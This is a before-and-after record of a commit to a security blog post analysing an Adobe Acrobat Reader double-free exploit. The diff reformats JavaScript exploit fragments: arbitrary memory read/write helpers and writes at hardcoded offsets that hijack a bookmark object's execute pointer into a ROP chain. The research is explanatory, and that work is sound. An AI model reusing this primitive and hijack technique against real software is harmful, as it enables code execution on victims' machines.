

Before and after one commit to sourceincite/sourceincite.github.io, a Jekyll site: the page built from _posts/2018-05-21-adobe-me-and-a-double-free.md, in a window 1280 px wide and 1400 px high, scrolled down 8245 px. Shown: the whole window at 92% size, without its empty margins (126-1153 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
added some more details

````diff
--- a/_posts/2018-05-21-adobe-me-and-a-double-free.md
+++ b/_posts/2018-05-21-adobe-me-and-a-double-free.md
@@ -329,19 +329,19 @@
 
 ```
 function myread(addr){
-    mydv.setUint32(mypos,addr,true);
+    mydv.setUint32(mypos, addr, true);
     var res = myarray[0];
-    mydv.setUint32(mypos,myarraybase,true);
+    mydv.setUint32(mypos, myarraybase, true);
     return res;
 }
 
-function mywrite(addr,value){
-    mydv.setUint32(mypos,addr,true);
-    myarray[0] = value ;
-    mydv.setUint32(mypos,myarraybase,true);
+function mywrite(addr, value){
+    mydv.setUint32(mypos, addr, true);
+    myarray[0] = value;
+    mydv.setUint32(mypos, myarraybase, true);
 }
 ```
-<p class="cn" markdown="1">Naturally, they use some helper functions to use the new read/write primitive. At this point it's game over. They could have gone with a data only attack but there is no need since Acrobat Reader has no Control Flow Guard (CFG) so they opted for the traditional call gate control flow. First they located the EScript.api and got the dll base address, then they built a rop chain with a dll loader stub, overwrote the bookmark object's execute function pointer to finally redirect execution flow.</p>
+<p class="cn" markdown="1">Naturally, they use some helper functions to use the new read/write primitive. At this point it's game over. They could have gone with a data only attack but there is no need since Acrobat Reader has no Control Flow Guard (CFG) so they opted for the traditional call gate control flow. First they located the EScript.api and got the dll base address, then they built a rop chain with a dll loader stub, stored it all in the `myarray` Array overwrote the bookmark object's execute function pointer with the base address of `myarray` to finally redirect execution flow.</p>
 
 ```
 var bkm = this.bookmarkRoot;
@@ -351,8 +351,8 @@
 ...
 
 mywrite(objescript, 0x6b707d06 - 0x6b640000 + dll_base);
-mywrite(objescript+4,myarraybase);
-mywrite(objescript+0x598,0x6b68389f - 0x6b640000 + dll_base);
+mywrite(objescript + 4, myarraybase);
+mywrite(objescript + 0x598,0x6b68389f - 0x6b640000 + dll_base);
 
 // adios!
 bkm.execute();
````
